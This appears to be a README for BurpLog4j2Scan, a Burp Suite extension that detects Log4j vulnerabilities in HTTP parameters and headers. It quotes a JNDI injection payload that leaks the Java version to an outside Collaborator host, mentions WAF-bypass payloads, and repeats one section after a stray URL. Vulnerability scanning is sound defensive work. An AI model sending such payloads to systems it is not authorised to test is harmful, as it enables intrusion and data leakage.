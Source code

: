 # BurpLog4j2Scan
### Notice(it can't be used in cwd Machine as there's no dns server.)
### Download: please get the latest tool from my repository https://github.com/263423403/BurpLog4jScanner
### How to use
1. Load BurpLog4j2Scan.jar through Extender
![img.png](images/1.png)

2. Right click the request which you want to check and then follow Extensions >Send to BurpLog4j2Scan
![img.png](images/2.png)
3. Be patient and wait for the result, or maybe you can grab a coffee. The scan time could be around 10 minutes for complicated request.
4. Find the result in BurpLog4j2Scan Tab. If vuln exists, you can check the injected request and then further investigate on it.
![img.png](images/3.png)

### How to investigate:

For example, the tool told us header User-Agent can lead to log4j vul.
![img.png](images/4.png)

We can then use below payload to test it.
${jndi:ldap://${sys:java.version}.urlFromBurpCollaborator}
![img.png](images/5.png)

And then we can get the dns result which contains the java version from Burp Collaborator Client which means the log4j vuln exists.
![img.png](images/6.png) - Google URL: http://www.google.com/search?q=### How to investigate:

For example, the tool told us header User-Agent can lead to log4j vul.
![img.png](images/4.png)

We can then use below payload to test it.
${jndi:ldap://${sys:java.version}.urlFromBurpCollaborator}
![img.png](images/5.png)

And then we can get the dns result which contains the java version from Burp Collaborator Client which means the log4j vuln exists.
![img.png](images/6.png)

### What it supports:
1. Get parameter check:
![img.png](images/7.png)

2. Post parameter check:
![img.png](images/8.png)

3. Json parameter check:

![img.png](images/9.png)

4. Header check(First check original header, and then add some guess headers for further check )
![img.png](images/10.png)

### Features:
1. Cover checking on get,post,json,header
2. Add some bypass waf payloads
3. Accurate detection, and can investigate the detail clearly after vuln has been found.

